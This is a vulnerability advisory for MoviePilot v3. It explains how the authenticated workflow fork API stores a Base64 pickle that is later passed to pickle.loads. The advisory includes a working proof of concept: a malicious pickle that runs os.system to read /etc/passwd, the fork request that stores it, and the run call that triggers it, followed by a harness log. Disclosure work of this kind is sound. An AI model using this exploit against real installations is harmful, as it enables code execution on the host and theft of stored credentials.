

# MoviePilot v3 Workflow Fork Pickle Deserialization Remote Code Execution

### Summary

MoviePilot (jxxghp/MoviePilot, branch `v3`) was confirmed vulnerable to deserialization of untrusted data leading to remote code execution. The `POST /api/v1/workflow/fork` endpoint accepts a fully attacker-controlled `context` string field. The value is only JSON-syntax-parsed and persisted verbatim to the `workflow.context` database column — no content validation, allowlist, or signing is applied. When the workflow later executes, `WorkflowExecutor.restore_context()` Base64-decodes the `content` entry and passes the bytes directly to `pickle.loads()` (app/chain/workflow.py:365).

The vulnerability was dynamically verified with an isolated execution harness on 2026-10-05. A malicious pickle object using the `__reduce__` primitive (`os.system`) was submitted through the fork path; during `pickle.loads()` the payload executed and created `/tmp/rce_proof.txt` containing `pwned_by_pickle` (exit code 0). The exploit requires an authenticated account with the manage permission (`permissions.manage=true`) and escalates from that secondary-administrator tier — which is intended for business-data management only — to operating-system-level code execution.

### Details

The attacker-controlled `context` string arrives at the fork endpoint and flows through the application layer into the database without inspection of the deserialized content:

- `POST /api/v1/workflow/fork` — app/api/endpoints/workflow.py:212-222; request schema `_SchemaWorkflowShare.context: Optional[str]` — app/schemas/workflow.py:190
- `WorkflowDefinitionCommand.fork()` — app/application/workflow.py:657-702; the context is only `json.loads`-parsed and stored via `workflow_values["context"]` at line 687
- `stage_create` — app/db/oper/workflow.py:190-195 (persisted into the JSON column `workflow.context`, app/db/models/workflow.py:43)

At execution time the stored value reaches the sink:

```python
def restore_context(self) -> ActionContext:
    """
    恢复工作流上下文，兼容旧版 Base64 Pickle 存储格式。
    """
    context = ActionContext()
    if self.workflow.context:
        try:
            if isinstance(self.workflow.context, dict) and self.workflow.context.get("content"):
                decoded_data = base64.b64decode(self.workflow.context["content"])
                context = pickle.loads(decoded_data)
            elif isinstance(self.workflow.context, dict):
                context = ActionContext.model_validate(self.workflow.context)
        except Exception:
            context = ActionContext()
```

The sink is `pickle.loads` at app/chain/workflow.py:365 (Base64 decoding at line 364), called from `WorkflowExecutor.__init__` at app/chain/workflow.py:213 whenever the workflow runs (manual run, event trigger, or scheduler). The comment ("兼容旧版 Base64 Pickle 存储格式" — compatible with the legacy Base64 pickle storage format) shows the pickle path is an intentional compatibility branch, but the input that reaches it is attacker-supplied through the public fork API.

Notably, the share-upload path treats the same field as sensitive and strips it (`pop('context')`, app/application/server/share.py:77) — the fork entry point omits this protection.

This is CWE-502: Deserialization of Untrusted Data (related: CWE-94 Improper Control of Generation of Code).

### PoC

The following reproduces the chain end to end. Step 1 forges the payload; step 2 submits it through the fork API; step 3 triggers execution.

#### 1. Build the malicious pickle payload

```python
import base64, json, pickle, os

class Exploit:
    def __reduce__(self):
        return (os.system, ("id > /tmp/pwned && cat /etc/passwd >> /tmp/pwned",))

b64_payload = base64.b64encode(pickle.dumps(Exploit())).decode()
print(json.dumps({"content": b64_payload}))
```

#### 2. Submit via POST /api/v1/workflow/fork

```python
import urllib.request

body = json.dumps({
    "name": "evil_workflow",
    "context": json.dumps({"content": b64_payload})
}).encode()
req = urllib.request.Request(
    "http://TARGET:3000/api/v1/workflow/fork",
    data=body,
    headers={"Authorization": "Bearer <manage-permission token>", "Content-Type": "application/json"},
    method="POST",
)
print(urllib.request.urlopen(req).read().decode())
```

The `context` passes `json.loads` validation and is stored in `workflow.context`.

#### 3. Trigger execution

```http
POST /api/v1/workflow/{id}/run?from_begin=false
Authorization: Bearer <token>
```

`from_begin=false` is required: the default `from_begin=true` manual-run path invokes `stage_reset` (app/db/oper/workflow.py:197-213), which clears the stored context before deserialization. The event-triggered path also reaches the sink because it fixes `from_begin=False` (app/chain/workflow.py:1277).

#### Harness verification (Verified 2026-10-05)

An isolated harness reproduced the fork write and the subsequent workflow execution:

```
=== Fuzzing Harness: MoviePilot workflow restore_context pickle deserialization ===
=== Target: app/chain/workflow.py:354 restore_context() ===
[ATTACKER] context field submitted to /api/v1/workflow/fork:
  context = {"content": "gASVRAAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjCllY2hvIHB3bmV..."}
[VULN] RCE CONFIRMED! Arbitrary command executed during pickle.loads
[VULN] Command output file /tmp/rce_proof.txt content: "pwned_by_pickle"
[VULN] pickle.loads() at app/chain/workflow.py:365 executed attacker-controlled object
exit code: 0
```



### Impact

An authenticated manage-permission user can execute arbitrary code on the host running MoviePilot with the privileges of the service process. The payload persists in the `workflow.context` column and is re-deserialized on every subsequent execution of the workflow (manual, event-triggered, or scheduled), yielding a persistent backdoor primitive. Successful exploitation enables theft of credentials stored in MoviePilot configuration (media server API keys, downloader credentials, the user database) and lateral movement into the surrounding environment (PT sites, downloaders, media servers).

The vulnerable code was confirmed present on the upstream repository branch `v3` at audit time (app/chain/workflow.py:354-373). The chain was verified by static end-to-end source tracing of every hop plus an isolated dynamic harness; it was not executed against a third-party live instance. Affected release versions and fixed status are to be confirmed.
